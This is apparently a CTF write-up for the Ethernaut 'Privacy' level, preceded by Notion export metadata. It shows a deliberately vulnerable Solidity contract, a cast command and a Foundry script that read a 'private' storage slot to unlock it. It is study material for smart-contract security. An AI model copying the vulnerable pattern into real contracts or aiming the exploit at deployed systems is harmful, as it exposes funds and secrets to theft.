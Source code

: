 ```yaml
---
title: "Privacy"
date: "2024-02-10"
lastmod: "2024-02-12T14:46:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Elevator-59c41c694afa45c68e603000da840a2e"
weight: 12
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/12"
next: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0141c599-3182-4d74-a831-1099eb338d5d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:46:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Elevator-59c41c694afa45c68e603000da840a2e"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator-59c41c694afa45c68e603000da840a2e"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 12
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/12"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Privacy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy"
          href: null
  url: "https://www.notion.so/Privacy-0141c59931824d74a8311099eb338d5d"
  public_url: null
UPDATE_TIME: "2024-02-13T10:44:30.811Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Privacy
weight: 13
type: docs
prev: elevator
next: gatekeeper-one


[Level12](https://ethernaut.openzeppelin.com/level/12) - ⭐⭐⭐


---


The creator of this contract was careful enough to protect the sensitive areas of its storage.


Unlock this contract to beat the level.


Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it
is presenting problems. Advanced gameplay could involve using remix, or
your own web3 provider.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(block.timestamp); // slot 2
  bytes32[3] private data; // [slot3, slot4, slot5]

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```


for more details on storage layout read this article:


[bookmark](https://docs.alchemy.com/docs/smart-contract-storage-layout)


So, the `_key` is stored at slot 5 since it is `data[2]`:


```solidity
➜  ~/repos/ethernaut (main) cast storage --rpc-url $SEPOLIA_RPC_URL $INSTANCE_12 5
0xe32410e9fbc1f17b0f1d9a6ed141317f11c4b2a5d38981dfa025aacf8b708d7d
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Privacy} from "../src/12.sol";


contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_12");

        vm.startBroadcast(deployerPrivateKey);

        Privacy privacy = Privacy(addr);
        console.log('isLocked : %s', privacy.locked());
				
				// vm.load() allows us to read arbitrary storage slot
        bytes16 key = bytes16(vm.load(address(privacy), bytes32(uint(5))));
        privacy.unlock(key);
        
        console.log('isLocked : %s', privacy.locked());

        vm.stopBroadcast();

    }
}
```


Nothing
 in the ethereum blockchain is private. The keyword private is merely an
 artificial construct of the Solidity language. Web3's `getStorageAt(...)`
 can be used to read anything from storage. It can be tricky to read 
what you want though, since several optimization rules and techniques 
are used to compact the storage as much as possible.


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)


More info:


[bookmark](https://medium.com/@0xZorz/how-to-read-dynamic-arrays-directly-from-storage-using-foundry-bdf5a104b8f6)

